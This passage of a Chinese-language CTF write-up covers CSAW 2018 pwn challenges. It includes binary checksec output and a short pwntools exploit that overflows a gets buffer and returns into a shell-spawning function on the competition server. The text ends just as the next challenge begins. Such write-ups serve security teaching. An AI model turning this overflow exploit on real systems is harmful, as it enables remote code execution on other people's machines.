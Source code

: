 

FLAG

```
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```



#### PWN—get it

```bash
➜  get_it file get_it 
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
➜  get_it checksec get_it 
[*] '/home/Ep3ius/pwn/process/CSAW2018/get_it/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序的逻辑很简单，一个gets溢出，也给了system('/bin/sh')函数，虽然开了NX麻烦直接shellcode来getshell，但ret2text还是很简单的就直接给exp了

EXP

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
#n = process('./get_it')
n = remote('pwn.chal.csaw.io',9001)

give_shell = 0x04005b6
buf = 'a'*(32+8)
payload = buf + p64(give_shell)

n.recvuntil('it??')
n.sendline(payload)

n.interactive()
```

FLAG

```
flag{y0u_deF_get_itls}
```



#### PWN—shell->code

```bash
➜  shellpointcode file shellpointcode 
shellpointcode: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=214cfc4f959e86fe8500f593e60ff2a33b3057ee, not stripped
➜  shellpointcode checksec shellpointcode 
[*] '/home/Ep3ius/pwn/process/CSAW2018/shellpointcode/shellpointcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
